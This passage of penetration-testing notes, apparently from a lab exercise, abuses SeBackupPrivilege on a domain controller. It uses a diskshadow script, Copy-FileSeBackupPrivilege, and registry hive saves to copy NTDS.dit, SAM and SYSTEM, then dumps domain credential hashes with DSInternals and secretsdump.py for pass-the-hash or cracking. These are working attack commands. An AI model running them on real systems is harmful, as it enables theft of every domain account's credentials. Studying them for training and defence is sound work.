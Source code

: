```powershell-session
diskshadow.exe

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC,  10/14/2020 12:57:52 AM

DISKSHADOW> set verbose on
DISKSHADOW> set metadata C:\Windows\Temp\meta.cab
DISKSHADOW> set context clientaccessible
DISKSHADOW> set context persistent
DISKSHADOW> begin backup
DISKSHADOW> add volume C: alias cdrive
DISKSHADOW> create
DISKSHADOW> expose %cdrive% E:
DISKSHADOW> end backup
DISKSHADOW> exit
```

#### Copying NTDS.dit locally
we can use the `Copy-FileSeBackupPrivilege` cmdlet to bypass the ACL and copy the NTDS.dit locally.

```powershell-session
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```

#### Backing up SAM and SYSTEM reg hives
The privilege also lets us back up the SAM and SYSTEM registry hives, which we can extract local account credentials offline using a tool such as Impacket's `secretsdump.py`
```cmd-session
reg save HKLM\SYSTEM SYSTEM.SAV
```
```cmd-session
reg save HKLM\SAM SAM.SAV
```

#### Extracting creds from NTDS.dit
With the NTDS.dit extracted, we can use a tool such as `secretsdump.py` or the PowerShell `DSInternals` module to extract all Active Directory account credentials using *DSInternals*.
```powershell-session
Import-Module .\DSInternals.psd1
$key = Get-BootKey -SystemHivePath .\SYSTEM
Get-ADDBAccount -DistinguishedName 'CN=administrator,CN=users,DC=inlanefreight,DC=local' -DBPath .\ntds.dit -BootKey $key
```

#### Extracting Hashes with Secretsdump
We can also use `SecretsDump` offline to extract hashes from the `ntds.dit` file obtained earlier. These can then be used for pass-the-hash to access additional resources or cracked offline using `Hashcat` to gain further access.
If we crack the passwords we can provide insight into password policy and suggest remediations
```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
